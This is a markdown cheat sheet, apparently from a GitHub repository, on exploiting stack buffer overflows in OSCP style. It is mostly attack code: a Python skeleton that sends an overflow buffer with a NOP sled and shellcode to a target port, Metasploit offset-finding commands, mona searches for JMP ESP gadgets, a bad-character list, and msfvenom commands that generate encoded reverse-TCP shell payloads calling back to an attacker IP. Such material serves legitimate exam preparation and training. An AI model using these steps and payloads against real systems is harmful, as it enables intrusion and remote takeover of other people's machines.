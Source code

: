 # Buffer Overflow

<a href='https://blog.hackerenv.com/buffer-overflow-tutorial-step-by-step-with-immunity-debugger-3/' target="blank">Buffer Overflow tutorial step by step with Immunity Debugger</a>

<a href='https://github.com/V1n1v131r4/OSCP-Buffer-Overflow' target="blank">OSCP Buffer Overflow Cheat Sheet</a>

``` bash
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

junk = "\x41" * #number

eip = "" # jmp esp

nop = "\x90" * 8

shell = ()

buffer = junk + eip + nop + shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 7138))
s.send(buffer)
s.recv(1024)
s.close()
```

## Offset

Create pattern for juck value

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Identify the offset

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6c41336c
```

## Go to esp

[https://github.com/corelan/mona](https://github.com/corelan/mona)

``` bash
!mona modules
```

[https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm)

### JMP ESP

``` bash
!mona find -s "\xff\xe4" -m "app.dll"
```

### CALL ESP

``` bash
!mona find -s "\xff\xd4" -m "app.dll"
```

### PUSH ESP --> RET

``` bash
!mona find -s "\x54\xc3" -m "app.dll"
```

## Locate payload

``` python
nop = "\x90" * 4
```

``` python
nop = "\x90" * 8
```

## Badchars

``` bash
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## Exploit Payload

``` bash
msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=443 EXITFUNC=thread -f c -b "\x00" -e x86/shikata_ga_nai
```

``` bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=<ip> lport=443 EXITFUNC=thread -f c -b "\x00" -e x86/shikata_ga_nai
```